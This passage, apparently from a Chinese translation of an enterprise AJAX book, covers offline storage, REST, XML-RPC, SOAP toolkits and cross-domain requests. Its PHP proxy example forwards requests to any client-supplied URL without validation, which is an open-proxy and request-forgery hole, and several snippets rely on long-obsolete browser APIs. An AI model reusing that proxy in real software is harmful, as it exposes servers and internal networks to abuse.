        pluginspage="http://www.macromedia.com/go/getflashplayer">
</object>
```

然后，只需要一个简单的 JavaScript 接口来调用我们的 ActionScript 函数，如下所示：

```javascript
<script>
// 通过 ID 获取 flash 影片对象
function thisMovie(movieName) {
    if (navigator.appName.indexOf("Microsoft") != -1) {
        return window[movieName];
    } else {
        return document[movieName];
    }
}

function saveData(store, param, pvalue) {
    thisMovie('myStorage').saveAttribute(store, param, pvalue);
}

function loadData(store, param) {
    return thisMovie('myStorage').loadAttribute(store, param);
}
</script>
```


使用任意的存储名称（本例中由`store`参数表示），我们可以为数据创建离散的存储“储物柜”。

### 离线 AJAX 与并发

尽管使应用程序离线运行是一个吸引人的想法，但有一件事必须谨慎处理。当人们将数据离线时，我们需要确保他们请求的数据没有被锁定在数据库中，同时期望更改会随时到来。这个问题的另一面是，当离线用户重新上线时，其他人已经更改并保存了与该用户在离线期间更改的相同数据。在这种情况下，根据用户离线时间的长短，用户离线处理的数据与服务器上的实际实时数据之间可能存在很大差异。在这些情况下，我们需要敏锐地意识到可能出现的并发问题，最重要的是，我们需要在应用程序设计阶段就考虑到这些问题，并设计出一种方法来处理用户重新上线时可能需要合并的大量更改。

## 总结

本章我们深入审视了服务器与网络浏览器之间通过异步消息传递、轮询和`Comet`进行通信的各种方法。当我们开始从服务器检索数据时，还需要考虑如何通过利用`JavaScript`、浏览器、Web服务器和数据库的缓存来提高该过程的效率。这些技术大多同样适用于任何Web应用程序，但在`AJAX`架构中尤为相关——在这种架构中，数据请求更加精细且具有特定目的，这使其适合进行缓存。当我们考察与服务器的交互时，还需要考虑当发往服务器的异步请求导致数据并发问题时，我们的数据会发生什么。我们还介绍了一些解决方案，以便在用户离线时使`AJAX`应用程序仍然可用。

## 资源

### 分层架构

- http://www.adobe.com/devnet/coldfusion/articles/ntier.html

### REST与Web服务

- Bayeux规范：http://svn.xantus.org/shortbus/trunk/bayeux/protocol.txt
- Java Web服务：http://java.sun.com/webservices/jwsdp/index.jsp
- PHP UDDI目录：http://pear.php.net/package/UDDI
- PHP Curl：http://www.php.net/manual/en/ref.curl.php
- XHR代理：http://developer.yahoo.com/javascript/howto-proxy.html
- http://www-128.ibm.com/developerworks/webservices/library/ws-wsAJAX/index.html
- HTTP 1.1：http://www.w3.org/Protocols/

### 缓存

- ASP.NET缓存：http://msdn.microsoft.com/library/default.asp?url=/library/en-us/cpguide/html/cpconaspoutputcache.asp
- 服务器缓存：http://www.mnot.net/cache_docs/
- ColdFusion响应头：http://livedocs.macromedia.com/coldfusion/7/htmldocs/00000270.htm
- 缓存测试：http://www.web-caching.com/cacheability.html
- 数据库缓存：http://dev.mysql.com/tech-resources/articles/mysql-query-cache.html

### 数据库性能

- 存储过程：http://www.onjava.com/pub/a/onjava/2003/08/13/stored_procedures.html
- 服务器脚本性能：http://www.mnot.net/cgi_buffer/
- SQL Server优化：http://support.microsoft.com/default.aspx?scid=kb;en-us;325119
- 版本控制：http://www.w3.org/1999/04/Editing/#Table
- CVS：http://www.cvshome.org/
- Subversion：http://subversion.tigris.net/
- IIS 6.0网络负载平衡：http://www.microsoft.com/technet/prodtechnol/WindowsServer2003/Library/IIS/0baca8b1-73b9-4cd2-ab9c-654d88d05b4f.mspx
- Eddie集群软件：http://eddie.sourceforge.net/
- http://www.danga.com/memcached/
- MySQL集群：http://www.mysql.com/products/database/cluster/
- MySQL表分区：http://dev.mysql.com/tech-resources/articles/performance-partitioning.html
- http://www.oasis-open.org/committees/tc_home.php?wg_abbrev=soa-rm
- Microsoft集群服务器：http://technet2.microsoft.com/windowsserver/en/technologies/mscs.mspx

### 离线AJAX

- Flash ExternalInterface与共享对象：http://www.adobe.com/support/flash/action_scripts/actionscript_dictionary/actionscript_dictionary648.html
- DOJO离线存储：http://manual.dojotoolkit.org/storage.html
- Internet Explorer userData行为：http://msdn.microsoft.com/library/default.asp?url=/workshop/author/persistence/overview.asp

## Web服务与安全性

`AJAX`应用程序依赖于基于Web的服务从服务器检索数据并将数据提交回服务器，通常使用`XHR`对象。然而，在客户端和服务器之间传输的数据可以采用任何格式，从单个查询字符串参数到Base64编码的`POST`数据。为构建你的`AJAX`应用程序而选择的数据格式将基于诸如开发者技能集、现有企业架构以及易用性等因素。我们探讨了如何在`AJAX`应用程序中使用表征状态转移（`REST`）和Web服务，以及如何最有效和适当地使用各种数据格式（如`XML`和`JSON`）。

每当我们谈论基于`AJAX`的网络通信时，都需要考虑一些重要的安全问题。许多问题对于传统Web应用程序是相同的，但对于Web应用程序的新手来说，这是一个重要的讨论。同时，`AJAX`确实会带来一些新问题，因为它为服务器上的应用程序打开了更多的入口，并且更多的业务逻辑位于客户端，任何人都可以查看。

## Web服务

对于某些人来说，可能会感到困惑的问题是：究竟什么是Web服务？就我们的目的而言，实际上有两种含义。`Web Services`（也称为`WS-*`）是`W3C`标准<sup>1</sup>，它实际上包含了关于Web服务寻址、编排、描述和策略的多个标准。这些标准共同涵盖了大量的功能，这些功能已在许多主要服务器平台上实现，并且是面向服务架构（`SOA`）的一套使能技术。在基于Web服务的架构中，数据通常以由简单对象访问协议（`SOAP`）定义的`XML`格式传输。另一方面，术语`web services`（小写）更像是一个总称，指的是一种更松散定义的数据访问方法，它本身包括`Web Services`（大写）。`web services`（小写）指的是任何可以通过`HTTP`使用多种数据格式（包括`JSON`、`XML`（根据`SOAP`或其他方式格式化），甚至纯文本）访问的服务器端代码。这完全取决于服务器上的服务期望什么。

关于这些方法，显然有两种截然不同的思想流派。尽管广大开发者社区非常热衷于低开销、临时的`Web services`（使用`JSON`作为数据格式），但企业可能更关注`Web Services`（大写）——这些构成`Web Services`（大写）的标准很可能已经在大型组织中普及。

### Web服务协议

在构建`AJAX`应用程序时，在Web服务（大小写不同）之间做出选择是最大的架构决策之一。经常会出现这样的问题：是否使用基于`SOAP`消息传递的`Web Services`（大写）架构，还是使用简化版的Web服务实现（如`XML-RPC`），或者采用更简单的方法（如`REST`）。

### 表征状态转移

表征状态转移（`REST`）基于这样一个理念：例如，要从Web应用程序中检索关于一个产品的信息，应该使用`HTTP GET`动词来请求资源，并且该资源应该有一个类似`/products/acme_widget`的URI，其中`acme_widget`是产品标识符；如果产品信息需要更新，应该使用`PUT`动词（同样指向相同的URI `/products/acme_widget`），并将更新后的产品信息作为负载发送，通常格式为`XML`。类似地，应该使用`DELETE`动词来删除资源。这些`HTTP`动词实际上与我们在构建`AJAX`数据管理层时考虑的`CRUD`方法映射得很好。关于`REST`的最后一个重点是它应该是无状态的。要使其无状态，服务器上不应存储任何关于请求的信息，并且服务器处理请求所需的所有状态信息都应随客户端的每次请求一起发送和接收。

除了使请求无状态外，在我们的`AJAX`应用程序中使用`REST`没有其他技术挑战。我们可以像往常一样使用常规的`XHR`对象向服务器请求数据。以`POST`或`PUT`请求提交给服务器的任何数据都可以以任何方式格式化，最常见的是`XML`或`JSON`。

以下是一个基本的`REST`请求：

```javascript
var myXhr = new entAjax.HttpRequest();

myXhr.handler = "http://www.example.com/products/acme_widget";

myXhr.get();
```

### XML远程过程调用

介于`REST`和`WS-*`之间的是XML远程过程调用（`XML-RPC`）规范。`XML-RPC`是一种新的、轻量级的化身，源自更成熟的远程过程调用技术（如`CORBA`、`DCOM`和`RMI`）。在`XML-RPC`中，关于Web服务要执行的操作信息被包含在一个`XML`负载中，并`POST`到服务器。`XML-RPC`请求的内容可以描述一个远程过程调用，该调用返回产品信息给客户端，并且很可能有一个参数传递给该过程，指示要检索的产品的ID。REST主义者（那些热爱`REST`的人）谴责这种方法，因为“获取”数据的请求使用`HTTP POST`发送，而它应该使用`GET`。无论如何，我们可以看到它与`REST`相似，但也类似于`Web Services`，因为它发送了一个基于`XML`的负载到服务器，描述要执行的操作。

```javascript
var payload = "<?xml version=\"1.0\"?>" +

"<methodCall>" +

"  <methodName>getProduct</methodName>" +

"  <params>" +

"    <param>" +

"      <value><string>acme_widget</string></value>" +

"    </param>" +

"  </params>" +

"</methodCall>";
```


```javascript
var myXhr = new entAjax.HttpRequest();
myXhr.handler = "http://www.example.com/products/acme_widget";
myXhr.setRequestHeader("Content-Type", "text/xml");
myXhr.post(payload);
```

## Web 服务

Web 服务与服务导向架构（SOA）密不可分，因为它们是实现 SOA 的使能技术。简单地说，按照 SOA 原则设计的系统会拥有一种架构，该架构基于松耦合、可互操作且与技术无关的服务。事实上，你常去的小酒馆就可以被视为一种 SOA：消费者与 bartender 交谈（传达需求），bartender 随后按照订单倒一杯啤酒（提供某种服务），然后将其交给消费者以换取金钱（返回服务结果）。为了促进对 SOA 含义的共同理解，结构化信息标准促进组织（OASIS）与多家大型组织合作，开发了 SOA 参考模型。该参考模型为 SOA 及其涵盖的概念提供了 excellent 且权威的定义。该参考模型可从 OASIS 网站获取，² 我们在讨论 SOA 时采用该参考模型中的定义。

OASIS 参考模型描述 SOA 时，并非从计算机和网络的角度，而仅从组织如何利用分布式能力或服务的角度出发，这些服务可能由不同的组织控制。SOA 强调技术无关性，它不是一组技术；也不规定问题的解决方案。它仅仅是一种方法或架构风格，适用于创建分布式系统。OASIS 的定义还强调了 SOA 的另一个重要方面：这些服务可能并非全部处于单一组织或所有者的控制之下。系统是分布式的，可能跨越组织边界，因此拥有标准和共同的方法极为重要。人们已经为 SOA 可以应用的各个域开发了语言，例如 Web 服务。对于 Web 服务，已经开发了大量标准，例如用于消息传递的简单对象访问协议（SOAP）和用于描述服务的 Web 服务描述语言（WSDL）。一般而言，服务通过指定其能力是什么、主动提出履行该能力，并在被请求时实际履行该能力，来暴露系统的能力。

SOA 和 Web 服务的目标是创建一组聚焦于可重用性、契约、松耦合、抽象性、可组合性、自治性、无状态性和可发现性的服务。这些是 SOA 的核心原则，我们将在基于 HTTP 访问的 Web 服务的背景下逐一讨论。

² http://www.oasis-open.org/committees/tc_home.php?wg_abbrev=soa-rm

### 可重用性

系统中的服务不应以仅在特定条件下才能实现其能力的方式来实施。为使服务可重用，它需要拥有以标准方式描述的接口，以便其他组件轻松使用。该接口通常被定义为契约或一组契约。

### 契约

通过使用标准语言（如基于 XML 的 WSDL）发布服务描述，服务可以轻松了解彼此交互所需的条件。通过支持标准契约格式，我们创建了可发现的服务，并可以将其组合起来构建更复杂的系统。

### 松耦合与自治性

松耦合（各组件相互独立，不依赖其他组件）是许多软件架构的核心原则，因为它允许构建可维护的系统，这类系统比紧耦合系统更容易扩展。在松耦合系统中，组件可以被替换，如果新组件支持相同的契约，系统应能像以前那样正常运行。当系统规模变大时，耦合程度往往是决定系统可维护性的主要因素之一。

### 抽象性

服务中的抽象性使我们能够将服务视为黑盒，即一段软件，我们只知道软件可以与之交互的公共接口。要使用某个服务，我们只需要知道如何与之交互，而无需了解其内部机制。因此，操作抽象和粒度是创建抽象系统的关键部分，每个操作只应执行契约中定义的单一任务。

### 可组合性

服务需要设计成能够作为服务组合的成员。创建松耦合服务的全部目的在于允许服务被组合成更复杂的分布式系统。单独的服务本身用途有限，只有当服务协同工作时，我们才能构建出更高级的系统。

### 无状态性

当服务执行时，服务必须为当前特定活动维护一定量的数据。这些数据就是状态信息，为了提高可扩展性，设计良好的服务应尽量保持最少的状态信息，并且只需在短时间内保持该状态信息。

### 可发现性

无论是公共还是私有环境中，当服务被添加到系统中时，拥有自动发现服务的方法对促进服务重用大有裨益。可发现性通常通过服务级别的契约以及架构级别的标准（如通用描述、发现和集成（UDDI）和 SOAP）来实现。

## 选择合适的工具

做出这一决策时需要考虑多个因素，例如现有架构、可扩展性、互操作性以及最终用户。需要注意的是，这是一个高度教条化的战场，你可能会发现关于可扩展性、可扩展性、性能和安全的声明被随意宣扬。

### 现有架构

组织当前使用的架构在此决策中应占有相当大的权重，因为这可以显著缩短应用上线时间，并且可以在已有的、经过验证的、可供消费的服务之上构建。开发人员的技能和工具集也可以与当前架构保持一致，这意味着开发人员学习新技能所需的时间成本更低。Web 服务在这方面的一个优势是：它拥有专门用于构建和集成 Web 服务的高质量工具。这包括自动代码生成、可视化服务编排、业务流程管理（BPM），以及使 Web-footnote Web 服务集中可访问和机器可发现的产品。

### 可扩展性

尽管 Web 服务和基于 REST 的架构都可以从数据库集群或扩展 Web 服务器 farm 的角度来设计可扩展性，但使应用扩展的另一种方式当然是进行恰当的设计。基于 REST 的 Web 服务的核心原则之一是它们具有无状态性，这应该能提高 Web 应用的可扩展性，因为服务器无需浪费资源来维护状态信息。虽然无状态请求是 REST Web 服务的核心原则，但 Web 服务同样可以做到这一点——毕竟，它们也使用 HTTP 协议与服务器通信。一般而言，即使在最简单的应用中，无状态性也很少被视为高度优先的设计目标，因为人们认为通过添加硬件来扩展应用是最廉价的解决方案——而且确实可以如此。

### 互操作性

如果你的组织需要将其 IT 系统与其他合作伙伴或供应链公司的系统整合，那么显然建议尝试使你的架构与它们保持一致。然而，在需要可靠性、可能长期运行的复杂业务流程，并且需要不同程度的认证的情况下，Web 服务及相关标准可以是一个好的解决方案。

## 最终用户

最后，如果你的应用程序的最终用户是普通大众，那么无论内部使用何种架构，只要有任何形式的公开访问 API，都应该以 REST Web 服务的理念来构建。Web 服务的复杂性可能会阻碍用户连接和使用你的数据。这一点在企业内部网中同样适用，尽管程度较轻，因为它同样能够让技能和高级开发工具较少的人消费数据。

毫无疑问，拥有基于 REST 的 API 使得 Flickr 这类用户能够更轻松地集成 Web 服务；然而，当我们讨论更高级的、"企业级"的（姑且这么说）服务时，我们看到人们对 SOAP 和 WS-* 协议栈的关注日益增加——SalesForce.com AppExchange 就是一个很好的例子。事实上，SalesForce API 从成功登录返回一个 `SessionHeader` 参数，用于在服务器上跨请求维护状态。在这种情况下这是合理的，因为 SalesForce 处理复杂的对象及其之间的关系。这种复杂性通过使用与 Web 服务相关的技术如 SOAP、XML Schema 和 WSDL 来管理，这些技术可以用于生成 C# 或 Java 中的代理代码，从而大大缩短服务集成时间并提高可靠性。

### 客户端上的 SOAP

SOAP 消息通常只是字符串，可以在 Web 浏览器中使用 JavaScript 手动构建，并使用 XHR 对象发送到服务器。然后，可以从 XHR 对象中获取返回的 SOAP 响应消息，并像处理任何其他 XHR 请求一样处理它。因为响应是 XML 文档，我们可以使用标准的 DOM 方法从响应中检索我们想要的信息。

例如，以下是对一个返回客户名称对应地址的 Web 服务请求的 SOAP 格式：

```xml
<?xml version="1.0"?>
<soap:Envelope
  xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
  soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"
  xmlns:m1="http://www.example.com/schemas/customer">
  <soap:Body>
    <m1:GetCustomerCredit>
      <m1:name>Joe Smith</m1:name>
    </m1:GetCustomerCredit>
  </soap:Body>
</soap:Envelope>
```

我们可以轻松地将此构造为 JavaScript 字符串，然后使用 POST 请求将其发送到适当的 Web 服务，将请求的 Content-Type 设置为 "text/xml"，并设置一个名为 SOAPAction 的特殊请求头，其值为 Web 服务的 URL 并附加方法名；对于我们的示例，SOAPAction 可能是 `http://www.example.com/services/GetCustomerAddress`。

这听起来理论上不错，但实践中会变得棘手。手动处理 SOAP 消息仅适用于简单的 Web 请求。SOAP 是一种复杂的协议，通过拼接字符串和使用 DOM 方法来获取细节是一种极其原始的处理 SOAP 的方式。幸运的是，有许多工具包可用于处理 SOAP 消息和一般的 Web 服务。这些工具包抽象了消息的实际格式，使我们能够以更自然的方式发出请求和处理响应。

### IBM Web Services JavaScript Library

用于此类用途的最佳工具包之一是 IBM 的 Web Services JavaScript Library（WSJL）。WSJL 抽象了从 Web 浏览器处理基于 SOAP 的 Web 服务交互时可能遇到的所有跨浏览器差异。特别是，XML 命名空间是 SOAP 和 Web 服务的一个重要方面，不同浏览器处理方式存在很大差异。基于 W3C 的浏览器和 Internet Explorer 的区别在于，Internet Explorer 不支持 `getElementsByTagNameNS()` 方法，该方法用于选择带有命名空间前缀的 DOM 节点；然而，Internet Explorer 确实具有强大的 XPath 选择支持，可用于在浏览器中解析 XML DOM 文档。当寻找一种基于跨浏览器 JavaScript 的方法从浏览器访问 SOAP Web 服务时，WSJL 是一个很好的选择。WSJL 打包在一个名为 `ws.js` 的单一 JavaScript 文件中，可从 IBM DeveloperWorks 网站免费获取。³ 如果我们想从内部服务器获取一些基于 SOAP 的数据，例如 Customer Center 应用程序中某个客户的信用信息，我们将 `ws.js` 文件包含到我们的页面中，并开始创建请求的 SOAP 消息：

³http://www-128.ibm.com/developerworks

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
  <head>
    <script type="text/javascript" src="script/entAjax/Customer.js"></script>
    <script type="text/javascript" src="script/ws.js"></script>
    <script type="text/javascript">
      nitobi.Customer.prototype.getCreditInfo = function() {
        var uri = 'http://www.example.com/schemas/customers';
        var envelope = new SOAP.Envelope();
        var body = envelope.create_body();
        var el = body.create_child(new WS.QName('GetCustomerCredit', uri));
        el.create_child(new WS.QName('name', uri)).set_value('Joe Smith');
      };
    </script>
  </head>
  <body>…</body>
</html>
```

这将创建与本节第一个示例中相同的请求。IBM 工具包还有许多其他资源用于发送请求和处理响应，以及对其他 Web 服务标准的支持，例如 WS-Addressing，它允许在 SOAP 信封中指定更复杂的寻址信息，以及 WS-ResourceFramework，它允许处理有状态资源。这两个标准常用于采用 Web 服务的 SOA 系统中，从事这些系统工作的开发人员被鼓励调查 IBM WSJL 提供的支持。以下演示如何使用 WSJL 调用我们的示例 Web 服务，并将本节中的概念结合在一起：

```javascript
nitobi.Customer.prototype.getCreditInfo = function() {
  var uri = 'http://www.example.com/schemas/customers';
  var envelope = new SOAP.Envelope();
  var body = envelope.create_body();
  var el = body.create_child(new WS.QName('GetCustomerCredit', uri));
  el.create_child(new WS.QName('name', uri)).set_value('Joe Smith');

  var call = new WS.Call('/services/Credit');
  call.invoke(envelope, function(call, envelope) {
    var b = envelope.get_body();
    var fc = b.get_all_children()[0];
    fc = fc.get_all_children()[0];
    var credit = fc.get_value();
  });
};
```

由于 SOAP 是 Web 服务的标准，Web 浏览器提供对这一标准的支持似乎是理所当然的。Mozilla 系列的浏览器和 Internet Explorer 都确实提供对 SOAP 和 Web 服务的支持，但不幸的是，它们的接口差异如此之大，以至于编写与浏览器无关的代码来通过原生接口处理 SOAP 和 Web 服务是一项挑战。因此，到目前为止我们选择使用 IBM Web Service 库，它在代码中处理所有细节。然而，某些 Web 应用程序将针对单一浏览器编写。如果你确实可以控制用户将使用的浏览器，你可以利用提供的对 Web 服务和 SOAP 的原生支持；因此，我们简要讨论每种浏览器如何实现这些技术。如果你无法控制所使用的浏览器，建议你使用现有的库，例如 IBM 的库。

### Firefox

Firefox 支持从 JavaScript 调用基于 SOAP 的 Web 服务，无需手动在 JavaScript 中构建 SOAP 消息的麻烦。需要提到的一个注意事项是，与跨域 XHR 请求一样，跨域 SOAP Web 服务请求默认未启用，需要一些额外的工作。特别是，如果你的 Web 应用程序使用不同域上的 Web 服务，例如你公司供应链中的某家公司，它可以在以下条件下访问：

- 整个 HTML 文件和所有 JavaScript 文件都经过数字签名。（Mozilla 基金会提供了 SignTool 使这变得容易。）
- 通过签名后的 Java 归档文件来访问 HTML 页面，使用的源路径格式类似 `jar:http://www.example.com/customer-credit.jar!/customercredit.html`。
- 必须提示终端用户允许跨域请求，可使用以下 JavaScript 命令：

```javascript
netscape.security.PrivilegeManager.enablePrivilege("UniversalPreferencesRead")
```

如果上述三项标准均满足，就可以使用 Firefox 原生的 Web Service 方法。Firefox 中 Web Services 功能最有用的部分在于，可以借助 WSDL 文件生成一个 JavaScript Web Service 代理（proxy），其中包含 SOAP 消息中需要传递给服务器的所有值的属性。

```javascript
var gProxy = null;

function GetCustomerCredit(sName) {
  if (!gProxy) {
    var listener = {
      onLoad: function(aProxy) {
        gProxy = aProxy;
        gProxy.setListener(listener);
        requestCustomerCredit(sName);
      },

      onError: function(aError) {},

      CustomerCreditRequestCallback: function(aResult) {}
    };

    createProxy(listener);
  } else {
    requestCustomerCredit(sName);
  }
}

function createProxy() {
  var factory = new WebServiceProxyFactory();
```


```javascript
factory.createProxyAsync(
  'http://www.example.com/schemas/Customer.wsdl',
  'CustomerSearchPort',
  '',
  true,
  listener
);

}

function requestCustomerCredit(sName) {

  netscape.security.PrivilegeManager.enablePrivilege(
    "UniversalBrowserRead"
  );

  var request = {};

  request.name = sName;

  proxy.CustomerCreditRequest(request);

}

```

### Internet Explorer

和 Firefox 类似，Internet Explorer 内置了对调用基于 SOAP 的 Web Services 的支持。这是通过使用 Internet Explorer 原生的 WebService Behavior 来实现的。Behavior 是一项非常实用的技术——尽管它仅在 Internet Explorer 中可用——它通过添加一些额外的 CSS 标记将某个特定功能绑定到一个 HTML 元素上。给一个元素添加 Behavior 的方式如下：

```html
<div id="service" style="behavior:url(webservice.htc)"></div>
```

其中，`webservice.htc` 文件引用一个 HTML 组件（HTC），该组件混合了 XML 标记和 JavaScript。HTC 文件定义了 Behavior 的具体内容，Behavior 的方法可以通过引用对应的 HTML 元素来访问，例如：

```javascript
$("service").useService(...);
```

其中的 `useService()` 方法是通过应用 WebService Behavior 而额外添加到该 HTML 元素上的方法。现成的 Behavior 有多种，也可以定制 HTC 来构建自定义 Behavior。

对于 WebService Behavior 来说，它免去了构建基于 SOAP 的 Web Service 请求时的大量繁琐工作。和 Firefox 对 SOAP Web Services 的支持类似，WebService Behavior 通过解析 WSDL 文件并根据其中的信息自动构建 SOAP 消息，无需用户其他任何输入。事实上，我们只需知道方法名、对应的 WSDL port 以及 WSDL 文件的位置，就可以调用一个 Web Service。下面是调用一个返回客户信用信息的 Web Service 的客户端代码。

```html
<html>
  <head>
    <script type="text/javascript">
var gCallID;

function checkCredit(sName) {

  var callObj = new Object();

  callObj.funcName = "GetCredit";
  callObj.portName = "ServiceSoap";
  callObj.async = true;

  $("service").useService(
    "http://www.example.com/CustomerCredit.asmx?WSDL",
    "CustomerCredit"
  );

  gCallID = service.CustomerCredit.callService(
    handleCreditResults,
    callObj,
    sName
  );

}

function handleCreditResults(result) {
  alert(result.value);
}
    </script>

    <style>
.service {
  behavior:url(webservice.htc);
}
    </style>
  </head>

  <body>
    <div id="service" class="service"></div>
  </body>
</html>
```

## 跨域 Web Services

Web 浏览器内置了许多安全措施来保护用户。其中一项安全措施就是阻止网页从其所属服务器以外的服务器请求数据；这被称为同源安全策略（same origin security policy）。之所以这么做，是因为如果不加限制，攻击者可以引诱无辜用户访问他的网页，进而让用户的浏览器使用浏览器中缓存的凭证登录其在线银行应用，并执行诸如转账这样的恶意操作——我们将在下一节关于安全的内容中看到这一点。然而，对于某些类型的 AJAX 应用——尤其是 mashup——出于强烈的需求，需要让来自不同域的内容协同工作，以构建一个更大的应用。

在 AJAX 的 Web 应用中，我们经常需要访问我们自己站点以外站点的数据。例如，我们的 Web 应用可能需要从一个第三方 Web 服务（例如 FedEx 或 UPS）获取客户订单的运输信息。该服务运行在与宿主 Web 应用不同的域上，因为它隶属于另一家公司。由于浏览器的安全限制，如果我们的应用部署在 `mycompany.com` 上，就不能简单地让客户端向 `fedex.com` 域上的服务发起 Web service 请求。

针对这个问题有几种解决方案。我们可以在 `mycompany.com` 服务器上实现一个代理服务，由它代客户端把请求转发到 `fedex.com`，然后把从 `fedex.com` 返回的结果再返回给客户端。在这种情况下，客户端发起的仍然是一个对同一域（即来源域）的合法 Web service 请求，浏览器对此不会提出异议。

另外，也有几种完全不涉及服务端编码的纯客户端解决方案。我们将要讨论的其中三种方案包括：使用 URL fragment 标识符来在宿主网页和不同域网页之间通过 `<iframe>` 传递数据、使用一个 Flash 影片作为客户端代理，以及在网页中使用动态 `<script>` 注入。

### 服务端代理

实现一个服务端代理并不复杂。我们需要接收已经发送到服务器的请求，确定要转发到哪个服务，然后由我们自己向远程服务发起请求，并把远程服务返回的结果再发回给客户端。幸运的是，所有现代的 Web 应用平台都提供了简便的方法来在服务端发起 Web 请求，其方式几乎与我们从客户端发起请求完全一样。事实上，在 ASP 中，我们有一个名为 `ServerXHR` 的 ActiveX 对象，其使用方式与浏览器中 XHR 对象的用法几乎一致。

虽然 Java 和 .NET 都具备原生的 socket 功能，但在 PHP 中我们需要使用 Curl 库。Curl 即 Client URL Library（客户端 URL 库），是一个用于在服务端发起 Web 请求的库；更多文档可在 PHP 在线文档中找到。⁵ 下面是一个使用 Curl 库的 PHP 示例，非常容易学习和改造。

```php
<?php

$url = ($_POST['url']) ? $_POST['url'] : $_GET['url'];

$session = curl_init($url);

// If it's a POST, put the POST data in the body

if ($_POST['url']) {

  $postvars = '';

  while ($element = current($_POST)) {

    $postvars .= key($_POST).'='.$element.'&';

    next($_POST);

  }

  curl_setopt($session, CURLOPT_POST, true);

  curl_setopt($session, CURLOPT_POSTFIELDS, $postvars);

}

// Don't return HTTP headers. Do return the contents of the call

curl_setopt($session, CURLOPT_HEADER, false);
curl_setopt($session, CURLOPT_RETURNTRANSFER, true);

// Make the call

$xml = curl_exec($session);

// The web service returns XML. Set the Content-Type appropriately

header("Content-Type: text/xml");

echo $xml;

curl_close($session);

?>
```

这个代理可以处理 `GET` 或 `POST` 请求，其中远程 Web service 的 URL 通过查询字符串中的 `url` 参数传递。例如，我们可以使用以下 JavaScript 来调用 Yahoo! 的 Web service。

```javascript
var path = 'http://api.local.yahoo.com/' +
           'LocalSearchService/V3/localSearch' +
           '?appid=YahooDemo&query=pizza&zip=94306&results=2';

var url = '/proxy.php?url=' + encodeURIComponent(path);

...

xhr.open('GET', url, true);
```

我们先构造远程服务请求的 URL，其中包含将被一同传递的查询字符串，然后使用 JavaScript 函数 `encodeURIComponent()` 将该路径编码为适合作为查询字符串参数传递给代理的格式。接着我们对本地 Web 站点发起请求，该请求会被代理转发到 Yahoo! 的网站，再把 Yahoo! 返回的响应送回客户端，客户端可以通过 XHR 的 `responseText` 或 `responseXML` 属性来读取它。

整个过程就好像是客户端浏览器真正调用了 Yahoo! 服务器上的 Web service 一样。如果我们直接尝试用 XHR 对象的 `open()` 方法将 URL 指向 Yahoo! 的 Web service，在浏览器采用“默认”安全设置的情况下，会抛出一个安全异常。前面的代理也可以完全按相同的方式来处理 POST 请求。

另一种方案是使用真正的 Web 代理（例如 Apache 的 `mod_proxy` 或 `mod_rewrite` 模块）来代理这些请求。我们就可以把对服务器上某个特定 URL 的请求自动转发到另一台服务器上的 URL。

然而，使用 Web 代理能让我们掌控的细节会少很多，因此自己编写一段脚本来代理 Web 请求要强大得多。如果我们希望以任何方式改写响应——比如希望将其格式化为 XML 数据——都可以在把响应返回给客户端之前先做处理。

此外，许多公共的 Web service，例如 Google 和 Yahoo! 的，都要求调用方需要从他们那里获取一个标识符才能使用其服务。此标识符必须在每个 Web 服务请求中发送。为了对客户端保密，我们可以自动将其添加到我们正在代理的请求中。否则，客户端必须知道该标识符，这允许他们以你的身份发出其他请求。

在前面的示例中，我们可以从客户端的查询字符串中移除 `appid` 参数，并让服务器检查对 Yahoo! 的请求；在这种情况下，它会在代理请求之前将 `appid` 参数添加到请求中。

### URL 片段标识符

尽管服务器代理可以很容易设置，但在某些情况下，可能需要一种更轻量且更以客户端为中心的方法。使用 URL 片段标识符就是这样一种方法，并且这种方法要求不同域上的网页知道要查找什么并使用相同的语言才能正常工作。

实际上，我们可以通过 `<iframe>` URL 的片段标识符在两个不同域上的网页之间来回传递数据。宿主应用程序可以动态创建一个 HTML `<iframe>`，并将 `<iframe>` 的位置设置为所需网站的 URL，该网站属于不同的域，因此，宿主网页和新的 `<iframe>` 之间的通信是不允许的。

然而，宿主网页和加载在 `<iframe>` 中的网页都可以访问 `<iframe>` 的 URL；宿主网页当然可以通过 `<iframe>` 元素的 `src` 属性来更改 `<iframe>` 中网页的位置，而加载在 `<iframe>` 中的网页显然也有权通过脚本更改其自己的位置。

这里的诀窍在于，宿主网页或加载在 `<iframe>` 中的页面可以将 `<iframe>` 的 URL 设置为相同的 URL，但添加一个用于将页面滚动到锚点的片段标识符。

例如，我们可能有一个网页位于我的域（`mydomain.com`）上，它使用 JavaScript 动态创建一个 `<iframe>` 元素，其中 `<iframe>` 的 `src` 属性是位于你的域（`yourdomain.com`）上的网页的 URL。情况看起来像图 7.1 所示。

**图 7.1** 使用隐藏的 HTML `<iframe>` 进行跨域 AJAX

这里，我们有一个网页，它来自我的服务器，其中 `<iframe>` 内容来自你的服务器。到目前为止一切顺利。现在我们可以做的是，从你的网页或我的网页中，更改 `<iframe>` `src` 的位置，但只能添加一个片段标识符。

要通过 JavaScript 创建 `<iframe>`，我们可以创建一个 `CrossDomainWidget` 类，它表示页面中来自不同域的一小部分 HTML。

```javascript
entAjax.CrossDomainWidget = function(dLocation, sUrl) {

    this.url = sUrl;

    this.id = "xdw_"+(new Date().getTime());

    this.onChange = new entAjax.Event();

    this.iframeObj =
        entAjax.createElement(
            "iframe",
            {"name":this.id,"id":this.id},
            dLocation
        );

    this.iframe = frames[this.id];

    this.listen();

}
```

我们将 `<iframe>` 的 `name` 和 `id` 属性都设置为相同的唯一标识符，这样我们就可以在页面上拥有多个此类部件。在 `CrossDomainWidget` 构造函数的末尾，我们调用了一个名为 `listen()` 的方法，如下所示：

```javascript
entAjax.CrossDomainWidget.prototype.listen = function() {

    var aLocation = this.iframe.location.href.split("#");

    this.currentMessage = aLocation[1];

    if (this.currentMessage != this.lastMessage) {

        this.onChange.notify(this.currentMessage);

        this.lastMessage = this.currentMessage;

    }

    window.setTimeout(entAjax.close(this, this.listen), 200);

}
```

`listen()` 函数所做的全部工作就是每 200 毫秒检查一次动态创建的 `<iframe>` 的位置，以查看片段标识符是否已更改。当它发生更改时，它会触发 `onChange` 事件，以通知任何对该部件传来的消息感兴趣的其他 JavaScript 组件。

问题的另一部分是宿主应用程序需要向来自其他域的网页发送消息，这可以通过一个简单的 `send()` 方法来实现。

```javascript
